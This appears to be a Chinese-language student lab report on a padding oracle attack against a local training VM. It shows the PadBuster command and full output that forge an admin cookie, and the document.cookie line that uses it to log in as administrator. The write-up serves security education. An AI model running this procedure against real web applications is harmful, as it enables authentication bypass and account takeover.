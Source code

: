 # Padding Oracle Attack

## 实验环境

+ `Google Chrome` 浏览器
+ `Oracle VM VirtualBox`
+ `Linux (Oracle 64-bit)`
+ `Ubuntu 20.04`

## 实验目的

利用Padding Oracle在不知道密钥的情况下解密任意密文，或者构造出任意明文的合法密文。

## 实验原理

**一、Padding Oracle Attack的条件** 

+ 攻击者能够获得密文，以及密文对应的IV（初始化向量）
+ 攻击者能够触发密文的解密过程，且能够知道密文的解密结果

对于第一点，密文是我们攻击的目标，从cookie、敏感数据等很多地方自然可以获得。密码学里的IV，并没有保密性的要求，所以对于使用CBC-MODE的加密算法来说，IV经常会随着密文一起发送。常见的做法是将IV作为一个前缀，附着在密文的前面。对于CBC-MODE来说，IV的长度必须与分组的长度相等。**padding oracle attack是通过验证解密时产生的明文是否符合padding的原则，来判断解密是否成功的。**

**二、`padbuster`工具**

`PadBuster`是Kali Linux提供的一款专向工具。该工具使用`Perl`语言编写，可以暴力破解访问密钥，获取指定文件的内容。

## 实验过程

+ 搭建实验环境

  <img src="img\搭建环境.png"/>

+ 查看虚拟机地址并且访问

  <img src="img\登陆成功.png"/>

+ 创建用户并登录，获取cookie

  <img src="img\注册登录.png"/>

  ```
  cookie = Ykf8QRowsqaAmdG7WGRsbydhV52QPEnV
  ```

+ 在`Ubuntu`虚拟机中下载 `PadBuster` 并且安装相关依赖

  ```
  git clone https://github.com/AonCyberLabs/PadBuster.git
  cd PadBuster
  ```

  <img src="img\下载工具.png"/>

  ```
  #安装依赖
  perl -MCPAN -eshell
  cpan> install Bundle::LWP
  sudo apt-get install libcrypt-ssleay-perl
  sudo apt-get install libwww-perl
  ```

  利用工具生成新的cookie，在网页修改cookie后刷新即可成功**以管理员身份登录** 。

  ```
  cuc@cuc-lab:~/PadBuster$ perl padBuster.pl http://192.168.56.104/index.php Ykf8QRowsqaAmdG7WGRsbydhV52QPEnV 8 --cookies auth=Ykf8QRowsqaAmdG7WGRsbydhV52QPEnV -encoding 0 -plaintext user=admin
  
  +-------------------------------------------+
  | PadBuster - v0.3.3                        |
  | Brian Holyfield - Gotham Digital Science  |
  | labs@gdssecurity.com                      |
  +-------------------------------------------+
  
  INFO: The original request returned the following
  [+] Status: 200
  [+] Location: N/A
  [+] Content Length: 1188
  
  INFO: Starting PadBuster Encrypt Mode
  [+] Number of Blocks: 2
  
  INFO: No error string was provided...starting response analysis
  
  *** Response Analysis Complete ***
  
  The following response signatures were returned:
  
  -------------------------------------------------------
  ID#     Freq    Status  Length  Location
  -------------------------------------------------------
  1       1       200     1388    N/A
  2 **    255     200     15      N/A
  -------------------------------------------------------
  
  Enter an ID that matches the error condition
  NOTE: The ID# marked with ** is recommended : 2
  
  Continuing test with selection 2
  
  [+] Success: (196/256) [Byte 8]
  [+] Success: (148/256) [Byte 7]
  [+] Success: (92/256) [Byte 6]
  [+] Success: (41/256) [Byte 5]
  [+] Success: (218/256) [Byte 4]
  [+] Success: (136/256) [Byte 3]
  [+] Success: (150/256) [Byte 2]
  [+] Success: (190/256) [Byte 1]
  
  Block 2 Results:
  [+] New Cipher Text (HEX): 23037825d5a1683b
  [+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d
  
  [+] Success: (1/256) [Byte 8]
  [+] Success: (36/256) [Byte 7]
  [+] Success: (180/256) [Byte 6]
  [+] Success: (17/256) [Byte 5]
  [+] Success: (146/256) [Byte 4]
  [+] Success: (50/256) [Byte 3]
  [+] Success: (132/256) [Byte 2]
  [+] Success: (135/256) [Byte 1]
  
  Block 1 Results:
  [+] New Cipher Text (HEX): 0408ad19d62eba93
  [+] Intermediate Bytes (HEX): 717bc86beb4fdefe
  
  -------------------------------------------------------
  ** Finished ***
  
  [+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
  -------------------------------------------------------
  
  ```

  修改cookie:

  ```
  document.cookie='auth=BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA';
  ```

  <img src="img\以管理员身份登录.png"/>

## 实验遇到的问题以及解决办法

+ 在浏览器上访问虚拟机出现错误

  <img src="img\访问不了.png"/>

  解决办法：删除虚拟机中多余的镜像，只留下Padding Oracle镜像，再重新访问即可。

+ 使用`perl padBuster.pl`时报错：

  ```
  cuc@cuc-lab:~/PadBuster$ perl padBuster.pl http://192.168.56.104/index.php Ykf8QRowsqaAmdG7WGRsbydhV52QPEnV 8 --cookies auth=Ykf8QRowsqaAmdG7WGRsbydhV52QPEnV -encoding 0
  Can't locate LWP/UserAgent.pm in @INC (you may need to install the LWP::UserAgent module) (@INC contains: /etc/perl /usr/local/lib/x86_64-linux-gnu/perl/5.30.0 /usr/local/share/perl/5.30.0 /usr/lib/x86_64-linux-gnu/perl5/5.30 /usr/share/perl5 /usr/lib/x86_64-linux-gnu/perl/5.30 /usr/share/perl/5.30 /usr/local/lib/site_perl /usr/lib/x86_64-linux-gnu/perl-base) at padBuster.pl line 13.
  BEGIN failed--compilation aborted at padBuster.pl line 13.
  
  ```

  解决办法：是`libwww-perl`配置问题，安装后即可解决

  ```
  sudo apt-get install libwww-perl
  ```

## 参考文献

+  [Padding Oracle Attack 实验指南](https://pentesterlab.com/exercises/padding_oracle/course)
+ [Padding Oracle Attack的一些细节与实现](http://wjhsh.net/zlhff-p-5519175.html)
+ [Can't locate LWP/UserAgent.pm报错](https://blog.csdn.net/zzz_781111/article/details/5026133)
